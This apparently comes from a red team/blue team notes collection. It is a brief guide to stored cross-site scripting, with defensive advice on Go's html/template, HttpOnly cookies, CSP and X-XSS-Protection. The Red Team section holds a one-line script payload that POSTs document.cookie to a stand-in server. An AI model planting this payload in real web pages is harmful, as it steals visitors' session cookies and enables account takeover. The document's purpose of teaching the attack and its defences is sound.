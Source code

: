 # Sored XSS

Stored XSS attacks are XXS attacks that are stored on the host's server.

## Red Team

You may be able to include a script in certain fields or posts on a page or forum. Whenever another user visits a page with that content your script will run.

```html
<!-- example content to send a user's cookies to your own server -->
<script>fetch('example.com', { method: 'POST', body: document.cookie });</script>
```

## Blue Team

Sanitize all input before rendering it on a web page.

```go
// Good
// Use renderers that automatically escape input text
import("html/template")

// Bad
import("text/template")
```

Additional mitigations:

* Use the [HttpOnly cookie](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies#Secure_and_HttpOnly_cookies) flag on cookies to prevent browser clients from accessing them
* Use the [Content-Security-Policy](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP) HTTP header to restrict page content sources
* Use the [X-XSS-Protection](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-XSS-Protection) HTTP header to tell browsers not to render the web page if an XSS attack is suspected in the page content
